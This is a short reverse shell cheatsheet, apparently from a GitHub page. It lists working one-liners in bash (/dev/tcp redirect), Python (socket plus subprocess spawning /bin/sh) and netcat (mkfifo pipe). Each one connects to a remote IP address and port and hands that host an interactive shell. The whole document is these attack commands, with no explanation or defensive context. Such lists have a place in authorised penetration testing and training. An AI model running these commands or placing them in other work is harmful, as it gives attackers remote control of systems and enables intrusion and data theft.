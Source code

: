 #### Reverse Shell Cheatsheet

* BASH
```
bash -i >& /dev/tcp/192.168.1.1/4444 0>&1
```

* PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

* NETCAT
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
